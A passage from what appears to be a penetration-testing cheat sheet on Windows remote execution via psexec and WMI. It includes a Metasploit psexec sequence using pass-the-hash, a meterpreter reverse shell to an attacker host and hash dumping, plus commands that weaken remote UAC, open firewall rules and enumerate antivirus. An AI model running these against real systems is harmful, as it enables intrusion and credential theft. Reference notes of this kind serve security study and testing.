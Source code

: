    Examples:
    
    * `psexec -accepteula \\computer -u username -p password cmd.exe` (`-s` - run as SYSTEM, `-h` - run with elevated token
    * `psexec \\computer -c binary.exe` - copy local binary to remote system and execute it

    *requirement* for windows 7: `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f` (or there will be an error: `Couldn't access`)

    <div class="spoiler"><div class="spoiler-title" markdown="1">
    metasploit's psexec: `exploit/windows/smb/psexec` - can use pass-the-hash as a password
    </div><div class="spoiler-text" markdown="1">

    ```
    use exploit/windows/smb/psexec
    set payload windows/meterpreter/reverse_tcp
    set LHOST 10.0.0.1
    set LPORT 443
    set RHOST 10.0.0.2
    set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
    exploit

    use post/windows/gather/smart_hashdump
    ```
    </div></div>

* [nmap `smb-psexec.nse`](https://nmap.org/nsedoc/scripts/smb-psexec.html)

* [remcom](https://github.com/kavika13/RemCom) - psexec opensource alternative

*   ***WMI (Windows Management Instrumentation)*** (WMI has api for cmd, PowerShell, .NET, C++, ActiveX, VBScript) (WMI may connect to remote machine) (Microsoft's implementation of Web-Based Enterprise Management (WBEM)) - it is *object-oriented* representation of system's resources

    *WMI can give you access and ability to manipulate almost all system's resources* (processes, services, registry, disks, cpu, groups, shares, ...)

    Firewall exceptions:

    * `netsh advfirewall firewall set rule group="windows management instrumentation (wmi)" new enable=yes` (windows >XP)
    * `netsh firewall set service RemoteAdmin enable` (windows XP)

    Utilities:

    * ***wmic***/***wbemtest.exe*** - console/GUI utility to interact with WMI structure of local/remote computer
    * ***winmgmt.exe***/***wmimgmt.msc*** - console/GUI(MMC snap-in) utility to interact with WMI structure of local computer (looks like it can connect to remote computer)

    Sample wmic commands ([***usefull wmic queries***](https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4)):
 
    * remote control: `wmic /node:10.0.0.2 /user:DOMAIN\USERNAME /password:PASSWD logon /format:csv` - basic example
    * `wmic os get version,caption,name,registereduser,installdate /format:csv`
    * `wmic qfe list full /format:table` - see installed patches on system
    * `wmic computersystem list full`
    * `wmic /namespace:\\root\securitycenter2 path antivirusproduct` - get antivirus
    * `wmic process get Caption,CommandLine,CSName,ExecutablePath,Handle,ParentProcessID,ProcessID,CreationDate /format:list`
    * `wmic process call create "cmd.exe /c calc.exe"`
    * `wmic startup list full /format:table`
    * `wmic service get /format:htable`
    * `wmic path Win32_PnPdevice` - get peripherals
